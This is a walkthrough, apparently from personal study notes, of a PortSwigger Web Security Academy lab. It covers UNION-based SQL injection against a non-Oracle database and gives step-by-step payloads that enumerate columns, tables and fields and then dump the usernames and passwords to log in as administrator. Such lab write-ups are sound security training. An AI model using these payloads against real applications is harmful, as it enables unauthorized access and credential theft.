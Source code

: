 ```yaml
---
title: 'Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal: To solve the lab, log in as the administrator user.

## Exp
1. Determine # of columns
Payload: `?category=Gifts' union select NULL,NULL --`

2. Determine which column contained text string
Payload: `?category=Gifts' union select 'a','b' --`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `information_schema.tables` to search `table_name`
For instance: `SELECT * FROM information_schema.tables`
![](https://i.imgur.com/ThON4MR.png)

    Payload: `?category=Gifts' union SELECT TABLE_NAME,NULL FROM information_schema.tables--`
    :::spoiler Result
    ![](https://i.imgur.com/DhL1g5i.png)
    :::
4. Then tried the specific one - `users_rjrgxf`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_rjrgxf'--
`
    :::spoiler Result
    ![](https://i.imgur.com/egzZ49U.png)
    :::
5. Tried dig deeper
    Payload: `?category=Gifts' union SELECT username_ngqqos,password_jraqsv FROM users_rjrgxf--
    `
    Then you'll get the password of `administrator` $\to$ login directrly
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/CKhLZdj.png)
    :::

## Reference